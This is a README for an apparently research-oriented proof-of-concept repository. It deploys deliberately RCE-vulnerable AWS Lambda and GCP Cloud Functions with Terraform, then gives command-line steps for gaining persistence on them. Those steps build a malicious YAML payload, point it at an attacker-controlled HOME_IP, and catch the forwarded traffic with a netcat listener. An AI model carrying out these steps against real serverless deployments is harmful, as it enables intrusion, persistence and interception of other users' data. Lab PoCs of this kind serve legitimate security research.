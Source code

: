 # serverless_persistency_poc

Vulnerable AWS Lambda & GCP Cloud Function (RCE) and files needed for achieving persistency on them. 
Simplified deployment using terraform! 

**BEWARE** Although attached role should not give attacker any chances of privilege escalation, remember that they are vulnerable to RCE (Remote Code Execution)!

## Dependencies

* [Terraform CLI](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-install.html) & [configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html) for your account
* [Google Cloud SDK](https://cloud.google.com/sdk/docs/install) & [configured with application-default](https://cloud.google.com/sdk/gcloud/reference/auth/application-default) & configured project

## Deployment

### AWS Lambda:
```bash
cd serverless_persistency_poc/aws
# Verify variables.tf for used AWS region and AWS profile (using default)
terraform init
terraform apply -auto-approve

# To clean up and delete all of the created AWS resources
terraform destroy -auto-approve
```

### GCP Cloud Function:
```bash
cd serverless_persistency_poc/gcp
# Edit variables.tf with your Project-ID (gcloud projects list), verify region, remember to set gcloud auth application-default login
terraform init
terraform apply -auto-approve

# To clean up and delete all of the created AWS resources
terraform destroy -auto-approve
```

## Exploitation

All needed files are in *exploit_files* folder.

### AWS Lambda
```bash
cd serverless_persistency_poc/aws/exploit_files
# Test Lambda with safe YAML, LAMBDA_ADDR should be returned in Terraform output
./send_yaml.py <LAMBDA_ADDR> valid_test_yaml.yaml

# Edit evil_bootstrap.py HOME_IP variable to your server IP address
vim evil_bootstrap.py

# Create YAML file with payload
./create_evil_yaml.py switcher.py evil_bootstrap.py

# Send file with payload, remember to start listening on your server (for example: nc -lvp 8000)
./send_yaml.py <LAMBDA_ADDR> evil_yaml.yaml

# Send safe YAML, your server should obtain it
./send_yaml.py <LAMBDA_ADDR> valid_test_yaml.yaml
```

### GCP Cloud Function
```bash
cd serverless_persistency_poc/gcp/exploit_files
# Test Lambda with safe YAML, FUNCTION should be returned in Terraform output
./send_yaml.py <FUNCTION> valid_test_yaml.yaml

# Edit evil_function.py HOME_IP variable to your server IP address
vim evil_function.py

# Create YAML file with payload
./create_evil_yaml.py switcher.py evil_function.py

# Send file with payload, remember to start listening on your server (for example: nc -lvp 8000)
./send_yaml.py <FUNCTION> evil_yaml.yaml

# Send safe YAML, your server should obtain it
./send_yaml.py <FUNCTION> valid_test_yaml.yaml
```